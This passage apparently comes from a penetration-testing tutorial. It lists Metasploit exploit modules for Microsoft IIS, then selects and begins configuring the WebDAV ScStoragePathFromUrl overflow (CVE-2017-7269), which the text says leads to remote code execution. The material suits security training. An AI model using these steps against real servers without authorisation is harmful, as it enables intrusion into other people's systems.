 ```
   12  exploit/windows/http/amlibweb_webquerydll_app                    2010-08-03       normal     Yes    Amlibweb NetOpacs webquery.dll Stack Buffer Overflow
   13  exploit/windows/http/ektron_xslt_exec_ws                         2015-02-05       excellent  Yes    Ektron 8.5, 8.7, 9.0 XSLT Transform Remote Code Execution
   14  exploit/windows/http/umbraco_upload_aspx                         2012-06-28       excellent  No     Umbraco CMS Remote Command Execution
   15  exploit/windows/iis/iis_webdav_scstoragepathfromurl              2017-03-26       manual     Yes    Microsoft IIS WebDav ScStoragePathFromUrl Overflow
   16  exploit/windows/iis/iis_webdav_upload_asp                        2004-12-31       excellent  No     Microsoft IIS WebDAV Write Access Code Execution
   17  exploit/windows/iis/ms01_023_printer                             2001-05-01       good       Yes    MS01-023 Microsoft IIS 5.0 Printer Host Header Overflow
   18  exploit/windows/iis/ms01_026_dbldecode                           2001-05-15       excellent  Yes    MS01-026 Microsoft IIS/PWS CGI Filename Double Decode Command Execution
   19  exploit/windows/iis/ms01_033_idq                                 2001-06-18       good       No     MS01-033 Microsoft IIS 5.0 IDQ Path Overflow
   20  exploit/windows/iis/ms02_018_htr                                 2002-04-10       good       No     MS02-018 Microsoft IIS 4.0 .HTR Path Overflow
   21  exploit/windows/iis/ms02_065_msadc                               2002-11-20       normal     Yes    MS02-065 Microsoft IIS MDAC msadcs.dll RDS DataStub Content-Type Overflow
   22  exploit/windows/iis/ms03_007_ntdll_webdav                        2003-05-30       great      Yes    MS03-007 Microsoft IIS 5.0 WebDAV ntdll.dll Path Overflow
   23  exploit/windows/iis/msadc                                        1998-07-17       excellent  Yes    MS99-025 Microsoft IIS MDAC msadcs.dll RDS Arbitrary Remote Command Execution
   24  exploit/windows/isapi/ms00_094_pbserver                          2000-12-04       good       Yes    MS00-094 Microsoft IIS Phone Book Service Overflow
   25  exploit/windows/isapi/ms03_022_nsiislog_post                     2003-06-25       good       Yes    MS03-022 Microsoft IIS ISAPI nsiislog.dll ISAPI POST Overflow
   26  exploit/windows/isapi/ms03_051_fp30reg_chunked                   2003-11-11       good       Yes    MS03-051 Microsoft IIS ISAPI FrontPage fp30reg.dll Chunked Overflow
   27  exploit/windows/isapi/rsa_webagent_redirect                      2005-10-21       good       Yes    Microsoft IIS ISAPI RSA WebAgent Redirect Overflow
   28  exploit/windows/isapi/w3who_query                                2004-12-06       good       Yes    Microsoft IIS ISAPI w3who.dll Query String Overflow
   29  exploit/windows/scada/advantech_webaccess_dashboard_file_upload  2016-02-05       excellent  Yes    Advantech WebAccess Dashboard Viewer uploadImageCommon Arbitrary File Upload
   30  exploit/windows/ssl/ms04_011_pct                                 2004-04-13       average    No     MS04-011 Microsoft Private Communications Transport Overflow
```

It is possible to recognize several exploits and scanners among the Metasploit modules available for IIS servers, please take a moment to read through the results. This time the _Microsoft IIS WebDav ScStoragePathFromUrl Overflow_ exploit will be used (search result number 15 on the list), which is related to the [CVE-2017-7269](https://www.cvedetails.com/cve/CVE-2017-7269/) vulnerability and it is also know as "Exploding Can". Note that, when successful, the execution of this exploit leads to remote code execution.

### Select an exploit and set its options
The `use` command will be used to select the exploit to be executed, and `show options` to get the options that have to be set in order to execute it:
```
msf5 > use exploit/windows/iis/iis_webdav_scstoragepathfromurl

msf5 exploit(windows/iis/iis_webdav_scstoragepathfromurl) > show options

Module options (exploit/windows/iis/iis_webdav_scstoragepathfromurl):

   Name           Current Setting  Required  Description
   ----           ---------------  --------  -----------
   MAXPATHLENGTH  60               yes       End of physical path brute force
   MINPATHLENGTH  3                yes       Start of physical path brute force
   Proxies                         no        A proxy chain of format type:host:port[,type:host:port][...]
```